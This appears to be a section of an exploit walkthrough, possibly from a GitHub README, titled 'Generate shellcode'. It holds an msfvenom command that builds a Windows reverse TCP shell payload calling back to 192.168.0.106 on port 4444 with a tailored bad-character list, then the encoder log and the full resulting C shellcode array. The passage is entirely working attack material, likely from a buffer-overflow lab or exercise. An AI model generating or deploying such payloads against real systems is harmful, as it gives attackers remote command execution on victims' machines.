 
## Generate shellcode

```
> msfvenom -p windows/shell_reverse_tcp lhost=192.168.0.106 lport=4444 -b "\x00\x16\x2f\xf4\xfd\xfe" EXITFUNC=thread -f c
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with Failed to locate a valid permutation.
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor failed with Encoding failed due to a bad character (index=23, char=0xf4)
Attempting to encode payload with 1 iterations of x86/countdown
x86/countdown failed with Encoding failed due to a bad character (index=43, char=0x16)
Attempting to encode payload with 1 iterations of x86/fnstenv_mov
x86/fnstenv_mov failed with Encoding failed due to a bad character (index=8, char=0xf4)
Attempting to encode payload with 1 iterations of x86/jmp_call_additive
x86/jmp_call_additive succeeded with size 353 (iteration=0)
x86/jmp_call_additive chosen with final size 353
Payload size: 353 bytes
Final size of c file: 1508 bytes
unsigned char buf[] =
"\xfc\xbb\x97\x19\xc4\xcb\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x6b\xf1\x46\xcb\x93"
"\x02\x27\x45\x76\x33\x67\x31\xf3\x64\x57\x31\x51\x89\x1c\x17"
"\x41\x1a\x50\xb0\x66\xab\xdf\xe6\x49\x2c\x73\xda\xc8\xae\x8e"
"\x0f\x2a\x8e\x40\x42\x2b\xd7\xbd\xaf\x79\x80\xca\x02\x6d\xa5"
"\x87\x9e\x06\xf5\x06\xa7\xfb\x4e\x28\x86\xaa\xc5\x73\x08\x4d"
"\x09\x08\x01\x55\x4e\x35\xdb\xee\xa4\xc1\xda\x26\xf5\x2a\x70"
"\x07\x39\xd9\x88\x40\xfe\x02\xff\xb8\xfc\xbf\xf8\x7f\x7e\x64"
"\x8c\x9b\xd8\xef\x36\x47\xd8\x3c\xa0\x0c\xd6\x89\xa6\x4a\xfb"
"\x0c\x6a\xe1\x07\x84\x8d\x25\x8e\xde\xa9\xe1\xca\x85\xd0\xb0"
"\xb6\x68\xec\xa2\x18\xd4\x48\xa9\xb5\x01\xe1\xf0\xd1\xe6\xc8"
"\x0a\x22\x61\x5a\x79\x10\x2e\xf0\x15\x18\xa7\xde\xe2\x5f\x92"
"\xa7\x7c\x9e\x1d\xd8\x55\x65\x49\x88\xcd\x4c\xf2\x43\x0d\x70"
"\x27\xc3\x5d\xde\x98\xa4\x0d\x9e\x48\x4d\x47\x11\xb6\x6d\x68"
"\xfb\xdf\x04\x93\x6c\x20\x70\x9b\x06\xc8\x83\x9b\xc7\x54\x0d"
"\x7d\x8d\x74\x5b\xd6\x3a\xec\xc6\xac\xdb\xf1\xdc\xc9\xdc\x7a"
"\xd3\x2e\x92\x8a\x9e\x3c\x43\x7b\xd5\x1e\xc2\x84\xc3\x36\x88"
"\x17\x88\xc6\xc7\x0b\x07\x91\x80\xfa\x5e\x77\x3d\xa4\xc8\x65"
"\xbc\x30\x32\x2d\x1b\x81\xbd\xac\xee\xbd\x99\xbe\x36\x3d\xa6"
"\xea\xe6\x68\x70\x44\x41\xc3\x32\x3e\x1b\xb8\x9c\xd6\xda\xf2"
"\x1e\xa0\xe2\xde\xe8\x4c\x52\xb7\xac\x73\x5b\x5f\x39\x0c\x81"
"\xff\xc6\xc7\x01\x1f\x25\xcd\x7f\x88\xf0\x84\x3d\xd5\x02\x73"
"\x01\xe0\x80\x71\xfa\x17\x98\xf0\xff\x5c\x1e\xe9\x8d\xcd\xcb"
"\x0d\x21\xed\xd9\x0d\xc5\x11\xe2";
```

